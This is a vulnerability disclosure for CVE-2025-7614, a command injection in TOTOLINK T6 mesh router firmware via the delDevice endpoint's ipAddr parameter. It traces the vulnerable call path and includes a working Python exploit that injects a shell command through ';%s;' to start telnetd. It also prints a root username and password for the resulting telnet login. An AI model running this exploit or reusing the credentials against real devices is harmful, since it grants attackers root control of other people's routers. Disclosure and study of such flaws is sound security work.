 # [2025-7614](https://www.cve.org/CVERecord?id=CVE-2025-7614)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `delDevice`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `delDevice`. The `ipAddr` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](5/1.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](5/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](5/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"delDevice",
        "ipAddr":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://youtu.be/txZ1jVMwVDI)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.